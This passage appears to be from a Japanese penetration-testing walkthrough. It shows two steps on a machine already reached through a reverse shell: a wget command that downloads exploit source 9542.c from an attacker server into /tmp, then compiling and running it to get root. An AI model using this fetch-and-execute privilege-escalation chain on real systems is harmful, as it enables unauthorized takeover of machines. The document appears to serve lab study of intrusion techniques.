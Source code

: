 ### 11, リバースシェルをしたサーバ内で攻撃サーバからコードをダウンロードする
- 権限の関係の為、tmp配下にダウンロードを試みる
```
$ cs /tmp
$ wget http://192.168.11.12:8080/9542.c
```

### 12, ダウンロードしたコードをコンパイルして実行
```
$ gcc 9542.c -o 9542
$ ./9542
$ whoami
root
```
特権昇格！


